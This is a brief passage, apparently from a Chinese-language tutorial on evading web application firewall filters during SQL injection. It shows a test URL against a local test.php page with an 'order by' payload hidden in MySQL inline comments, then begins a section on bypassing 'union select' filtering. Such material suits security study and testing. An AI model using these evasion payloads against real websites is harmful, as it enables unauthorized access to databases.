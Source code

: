 ```url
http://127.0.0.1/test.php?id=1' /*!order*//*!by*/2%23
```

![](/OSS/image/20201201/10.png)

## 绕过union select查询

使用union xxx页面正常
![](/OSS/image/20201201/11.png)
